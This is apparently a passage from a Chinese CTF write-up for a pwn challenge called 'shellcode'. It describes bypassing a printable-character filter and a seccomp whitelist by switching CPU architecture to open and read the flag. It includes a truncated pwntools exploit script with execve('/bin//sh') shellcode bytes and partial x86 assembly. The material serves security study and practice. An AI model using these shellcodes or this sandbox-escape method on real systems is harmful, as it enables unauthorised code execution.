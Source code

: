 ## shellcode

![image-20220717224839548](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220717224839548.png)

![image-20220717224902559](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220717224902559.png)

题目mmp了一片区域，然后执行shellcode，对输入内容有检测，32开始为可见字符，即有不可见字符就exit()

![image-20220717225110721](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220717225110721.png)

白名单沙箱，没有对架构进行检测，考虑切换架构实现open，然后orw

```python
# _*_ coding:utf-8 _*_
from pwn import *
context.log_level = 'debug'
p = process('./shellcode')
# p = remote("nc.eonew.cn","10011")

def dbg():
    gdb.attach(p)
    pause()

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda s                  :p.success('%s -> 0x%x' % (s, eval(s)))

sh_x86_18="\x6a\x0b\x58\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x86_20="\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x64_21="\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
#https://www.exploit-db.com/shellcodes
#-----------------------------------------------------------------------------------------


append_x86 = '''
push ebx
pop ebx
'''

append = '''
/* 机器码: 52 5a */
push rdx
pop rdx
'''

shellcode_x86 = '''
/*fp = open("flag")*/
mov esp,0x40404140

/* s = "flag" */
push 0x67616c66

/* ebx = &s */
push esp
pop ebx

/* ecx = 0 */
```